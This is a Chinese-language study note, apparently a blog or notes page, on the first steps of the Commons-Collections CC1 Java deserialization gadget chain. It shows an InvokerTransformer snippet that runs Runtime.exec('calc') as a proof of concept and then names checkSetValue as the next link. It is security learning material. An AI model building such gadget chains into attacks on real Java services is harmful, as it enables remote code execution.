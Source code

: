 `InvokerTransformer.java`包中的`transform`方法，可以执行任意方法，并且可以上传任意参数，所以cc链1的终点就是要执行`transform`方法

![image-20250922164226395](./Commons-Collections篇01-CC1链/image-20250922164226395.png)

```java
Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invokerTransformer.transform(Runtime.getRuntime());
```

## 第一步

`checkSetValue`执行了`transform`方法

![image-20250922183146626](./Commons-Collections篇01-CC1链/image-20250922183146626.png)

![image-20250922183119978](./Commons-Collections篇01-CC1链/image-20250922183119978.png)
